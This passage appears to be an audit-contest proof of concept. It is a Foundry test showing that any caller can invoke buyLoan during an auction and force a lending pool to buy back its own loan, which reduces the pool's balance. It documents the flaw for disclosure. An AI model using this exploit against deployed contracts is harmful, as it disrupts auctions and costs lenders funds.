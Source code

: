 **Proof Of Code:**

Add these to functions to `Lender.sol`:

```solidity
// added for audit contest proof of concept
function getPoolBalance(bytes32 poolId) external view returns(uint256 poolBalance) {
	return pools[poolId].poolBalance;
}
// added for audit contest proof of concept
function getPoolOutstandingLoans(bytes32 poolId) external view returns(uint256 outstandingLoans) {
	return pools[poolId].outstandingLoans;
}
```

Then add the test to `test/Lender.t.sol`:

```solidity
function test_attackerGriefBuyLoanToSellingPool() public {
	// using modified setup from test_buyLoan()
	test_borrow();
	// accrue interest
	vm.warp(block.timestamp + 364 days + 12 hours);

	// find the poolId which will auction the loan
	bytes32 poolId = lender.getPoolId(lender1, address(loanToken), address(collateralToken));

	// record the pool's balance & outstanding loans before the auction & exploit
	uint256 poolBalanceBefore = lender.getPoolBalance(poolId);
	uint256 poolOustandingLoansBefore = lender.getPoolOutstandingLoans(poolId);

	// kick off auction
	vm.startPrank(lender1);

	uint256[] memory loanIds = new uint256[](1);
	loanIds[0] = 0;

	lender.startAuction(loanIds);

	// warp to middle of auction
	vm.warp(block.timestamp + 12 hours);

	// stop lender1 prank
	vm.stopPrank();

	// attacker is not a lender & has no pool but can
	// call Lender.buyLoan() to force selling pool to buy their own loan
	// this will grief the auction as the attacker can always stop an auction
	// by forcing the selling pool to buy back its own loan
	address attacker = address(0x1337);
	vm.prank(attacker);
	lender.buyLoan(loanIds[0], poolId);

	// record the pool's balance & outstanding loans after the exploit
	uint256 poolBalanceAfter = lender.getPoolBalance(poolId);
	uint256 poolOustandingLoansAfter = lender.getPoolOutstandingLoans(poolId);

	console.log("poolBalanceBefore         : ", poolBalanceBefore);
	console.log("poolBalanceAfter          : ", poolBalanceAfter);
	console.log("poolOustandingLoansBefore : ", poolOustandingLoansBefore);
	console.log("poolOustandingLoansAfter  : ", poolOustandingLoansAfter);

	// this attack negatively impacts the pool's balance & oustanding loans:
	// pool balance is reduced after the attack
	assert(poolBalanceAfter < poolBalanceBefore);
	// pool outstanding loan is increased after the attack 
```